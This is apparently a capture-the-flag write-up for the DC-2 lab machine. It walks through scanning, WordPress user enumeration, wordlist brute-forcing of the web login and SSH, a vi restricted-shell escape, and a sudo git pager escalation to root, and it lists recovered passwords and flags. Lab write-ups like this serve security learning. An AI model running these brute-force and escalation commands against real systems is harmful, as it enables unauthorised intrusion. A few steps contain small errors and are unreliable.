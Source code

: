 ```yaml
---
description: >-
  This is a free linux, proving grounds machine, you can also download it from
  vulhub.
---
```


# DC-2

### NMAP

```shell
nmap -sV -sC -T4 -p- -oN nmap_dc2 192.168.237.194  192.168.161.194
```

```markdown
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-19 05:44 EAT
Warning: 192.168.237.194 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.237.194
Host is up (0.19s latency).
Not shown: 65322 closed tcp ports (conn-refused), 211 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Did not follow redirect to http://dc-2/
|_http-server-header: Apache/2.4.10 (Debian)
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 52:51:7b:6e:70:a4:33:7a:d2:4b:e1:0b:5a:0f:9e:d7 (DSA)
|   2048 59:11:d8:af:38:51:8f:41:a7:44:b3:28:03:80:99:42 (RSA)
|   256 df:18:1d:74:26:ce:c1:4f:6f:2f:c1:26:54:31:51:91 (ECDSA)
|_  256 d9:38:5f:99:7c:0d:64:7e:1d:46:f6:e9:7c:c6:37:17 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### http Enumeration(port 80)

On scanning our machine with feroxbuster we see that it has a **WordPress** website present but before the website opens you have to first set the **dc-2** domain in the **/etc/hosts** file.

```markdown
sudo mousepad /etc/hosts
192.168.186.194 dc-2
```

FEROXBUSTER

```shell
feroxbuster -u http://192.168.186.194 -x html,php,txt,js
```

!\[\[dc2-1.png]]

Attacking a WordPress website

```shell
wpscan --url http://dc-2 -e ap,u
```

!\[\[dc-2.png]]

After scanning the site we see it uses "**WordPress version 4.7.10**" and we see two users **admin** , **jerry** and **Tom** Now we going to try to do a bruteforce attack to the login form, with the use of **cewl** is generated a customised password list from the site ans saved it in has password.txt.

```shell
cewl -w password.txt http://dc-2
```

On attacking the users we get the password of Tom

```shell
1. wpscan --url http://dc-2 -U users.txt -P password.txt
2. wfuzz -c --hc=200 -z file,users.txt -z file,password.txt -d 'log=FUZZ&pwd=FUZ2Z&wp-submit=Log+In' http://dc-2/wp-login.php
```

!\[\[tom.png]]

### Gaining Access

Username: tom, Password: parturient

since i have tom's creds, let me try to login with ssh

```shell
ssh tom@dc-2 -p 7744
```

!\[\[ssh-1.png]]

I tried cat local.txt and it failed and also tried to see if python is present so i could change from the restricted shell, i tried to run vi on the file and surprisingly it works and managed to get the flag for tom.

```shell
1. vi local.txt
4c634c9733613be583cf6dbf152c80ee
```

i used vi to escapt to restricted shell, with some research i found [here](http://linuxshellaccount.blogspot.com/2008/05/restricted-accounts-and-vim-tricks-in.html) and after you set a $PATH

```shell
export PATH=/bin:/usr/bin:$PATH
```

after you set a $PATH you can see that your cat command now works, when you open flag3.txt has a message for us to su to jerry

!\[\[dc2-3.png]]

Finding jerry's password

```shell
hydra -l jerry -P password.txt ssh://dc-2:7744 -v
```

the password for jerry is "adipiscing"

### privilege escalation

!\[\[je.png]]

user jerry can run /usr/bin/git as admin, when you got [GTFObin](https://gtfobins.github.io/gtfobins/git/) and you search for git, you will see how to get a root shell

```shell
sudo /usr/bin/git -p help config
```

This command invokes the default pager, which is likely to be [`less`](https://gtfobins.github.io/gtfobins/less/), other functions may apply then try to search for strings in it with this command and you will get a root shell

```
!/bin/bash
```

!\[\[dc2-4.png]]

change to a root parental directory for the last flag

!\[\[final.png]]

```shell
1. cd proof.txt
e255f15b0d603f4942af0b1461c2aad6
```
